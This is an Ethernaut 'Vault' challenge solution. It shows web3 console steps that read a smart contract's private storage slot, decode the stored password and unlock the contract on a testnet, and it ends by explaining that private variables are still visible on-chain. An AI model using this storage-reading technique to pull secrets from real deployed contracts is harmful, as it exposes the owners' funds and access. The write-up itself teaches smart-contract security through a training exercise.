 ## Ethernaut-solution

### 8.Vault 

Unlock the vault to pass the level!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```
```
>contract
n {methods: {…}, abi: Array(3), address: '0x97E95179608562E7Afa3d66d3Be7a588171E06b5', transactionHash: undefined, constructor: ƒ, …}
```
```
>contract.abi
(3) [{…}, {…}, {…}]
0: {inputs: Array(1), stateMutability: 'nonpayable', type: 'constructor', constant: undefined, payable: undefined}
1: {inputs: Array(0), name: 'locked', outputs: Array(1), stateMutability: 'view', type: 'function', …}
2: {inputs: Array(1), name: 'unlock', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
length: 3
[[Prototype]]: Array(0)
```
```
>await contract.locked()
true
```
```
>contract.address
'0x97E95179608562E7Afa3d66d3Be7a588171E06b5'
```
```
>var pwd
undefined
```
```
>web3.eth.getStorageAt(contract.address, 0, function(err, result) { pwd = result })
```

//0 is boolian value 'locked'
```
Promise {<pending>}
```
```
>pwd
'0x0000000000000000000000000000000000000000000000000000000000000001'
```

//passsword取得してしまおう
```
>web3.eth.getStorageAt(contract.address, 1, function(err, result) { pwd = result })
```
//1 is password 
```
Promise {<pending>}

>pwd
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'

>web3.utils.toAscii(pwd) //strong encryption 
'A very strong secret password :)'
```

//unlockするのにガス代払ってunlock完了
```
>await contract.unlock(pwd)
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0xa96592a61f5a92b6f8240ce60612109cf22f05e0d2644fe8f9d88c88f0d9cf29
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0xa96592a61f5a92b6f8240ce60612109cf22f05e0d2644fe8f9d88c88f0d9cf29
{tx: '0xa96592a61f5a92b6f8240ce60612109cf22f05e0d2644fe8f9d88c88f0d9cf29', receipt: {…}, logs: Array(0)}
```
```
>await contract.locked()
false
```


Its important to remember that marking a variable as private only prevents other contracts from accessing it. 
State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. 
In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. 
zk-SNARKs provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.

## references

https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/
















